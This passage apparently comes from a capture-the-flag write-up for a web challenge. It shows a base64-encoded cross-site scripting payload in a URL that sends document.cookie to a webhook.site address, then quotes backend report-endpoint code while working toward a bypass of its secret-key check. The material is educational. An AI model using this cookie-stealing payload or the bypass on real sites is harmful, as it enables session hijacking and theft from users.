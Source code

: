 - We now just need to use the share page to convert our HTML payload to base64 and send it to bot to get the flag.


>```https://saas.wwctf.com/?html=PG1hdGg%2BPG10ZXh0Pjx0YWJsZT48bWdseXBoPjxzdHlsZT48aW1nL3NyYz14IG9uZXJyb3I9ImV2YWwoYCdgK1VSTCkiPg%3D%3D#';window.location='//webhook.site/4a1d0a64-9b41-4fa8-9b9d-2aeae9735076/p'+document.cookie```

- But there is no admin bot page in the frontend :0 and looking at the backend app.js

```
--------------------------app.js--------------------------

app.post('/api/report', async (req, res) => {
    const { data, nonce, urlToVisit, secretKey } = req.body;
    console.log("REPORT_LOG_DFD: ",data, nonce, urlToVisit, secretKey);
    if (!data || nonce === undefined || urlToVisit === undefined || secretKey === undefined) {
        return res.status(400).json({ success: false, error: 'Invalid request format.' });
    }
```

- To report the admin bot, we need data,nonce and a secretKey?

```
--------------------------app.js--------------------------

app.get('/api/report', (req, res) => {
    const challenge = generateChallenge();
    activeChallenges.set(challenge.data, challenge.difficulty);
    res.contentType("text/html");
    res.send(challenge.script);
});

```

- We can get the data and nonce by doing a get request on the `/api/report` endpoint.
`const ACCESSKEY = crypto.randomBytes(20).toString('hex');(secretKey !== ACCESSKEY)`
- There is no way to recover the secret key,i thought the author missed to provide the secretkey but found it was part of a challenge.

- Lets look at it again!

```
--------------------------app.js--------------------------
const CHALL_DOMAIN = process.env.CHALL_DOMAIN || "sass.wwctf.com";

            if (urlToVisit.includes(CHALL_DOMAIN)) {
                if (secretKey !== ACCESSKEY) {
                    return res.status(403).json({ success: false, error: 'secretKey is invalid you can not report' });
                }
            }
            const url = new URL(urlToVisit)
            if (url.host !== CHALL_DOMAIN) {
                return res.status(400).json({ success: false, error: 'Given URL is out of scope' });
            }
```

